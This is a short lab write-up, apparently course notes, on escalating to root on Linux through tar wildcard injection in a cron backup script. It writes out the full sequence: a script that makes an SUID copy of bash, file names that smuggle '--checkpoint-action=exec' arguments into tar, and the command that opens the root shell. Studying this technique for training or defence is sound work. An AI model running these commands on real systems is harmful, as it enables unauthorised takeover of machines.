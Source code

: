 In the machine TCM's using, there's another script at /usr/local/bin/compress.sh

Lets have a look at that. 

Basically, it is changing to the /home/user directory and then its taking a backup with a wildcard(\*). Now since there's a wildcard here, we can do an injection. So we can make a script and then we can make that script run by tar.

We'll run the same script that we used in [[Cron Paths]] :

```shell
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh

chmod +x runme.sh
```

Now we will do some tar specific commands. 

```shell
touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh/runme.sh
```

So, what does this do, when the script reads the checkpoint=1, it will display progress messages every 1 number. And whenever you get this checkpoint, do this action. And the action is execute shell and run runme.sh

And now we wait...

Then we run:

```shell
/tmp/bash -p
```

 And hooray, we are root
